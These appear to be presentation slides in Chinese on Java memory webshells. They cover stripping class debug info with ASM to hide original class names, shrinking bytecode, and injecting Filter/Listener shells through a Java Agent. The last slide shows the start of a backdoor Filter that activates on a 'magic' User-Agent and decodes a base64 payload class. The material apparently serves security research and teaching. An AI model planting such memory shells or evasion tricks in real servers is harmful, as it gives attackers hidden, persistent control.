 
# 修改了类名但还是能看到原始类名

SourceFileAttribute

<img src="/memshell_base64.png" class="h-md">

---

# 字节码缩小

```java
ClassReader cr = new ClassReader(bytes);
ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_MAXS);
ClassVisitor cv = new ClassVisitor(Opcodes.ASM9, cw) {
    @Override
    public void visitSource(String source, String debug) {

    }
};
cr.accept(cv, full ? ClassReader.SKIP_DEBUG : 0);
return cw.toByteArray();
```
```java
/**
 * A flag to skip the SourceFile, SourceDebugExtension, LocalVariableTable,
 * LocalVariableTypeTable, LineNumberTable and MethodParameters attributes. If this flag is set
 * these attributes are neither parsed nor visited (i.e. {@link ClassVisitor#visitSource}, {@link
 * MethodVisitor#visitLocalVariable}, {@link MethodVisitor#visitLineNumber} and {@link
 * MethodVisitor#visitParameter} are not called).
 */
public static final int SKIP_DEBUG = 2;
```

---

# 编写通用 Agent

Java Agent 支持添加 ClassFileTransformer 修改类字节码。

### 1. JMG Agent 实现方式

通过 Java Agent 注入正常的 Filter、Listener 马 - Fake Agent

```java {*}{maxHeight:'300px'}
if (request instanceof HttpServletRequest && response instanceof HttpServletResponse) {
      HttpServletRequest httpServletRequest = (HttpServletRequest)request;
      HttpServletResponse httpServletResponse = (HttpServletResponse)response;
      try {
          byte[] byArray;
          if (httpServletRequest.getHeader("User-Agent") == null 
              || !httpServletRequest.getHeader("User-Agent").contains("magic")) break block12;
          String string = "x";
          try {
              Class<?> clazz = Class.forName("sun.misc.BASE64Decoder");
              byArray = (byte[])clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), string);
          }
          catch (Throwable throwable) {
              Class<?> clazz = Class.forName("java.util.Base64");
              Object object = clazz.getMethod("getDecoder", null).invoke(clazz, null);
              byArray = (byte[])object.getClass().getMethod("decode", String.class).invoke(object, string);
```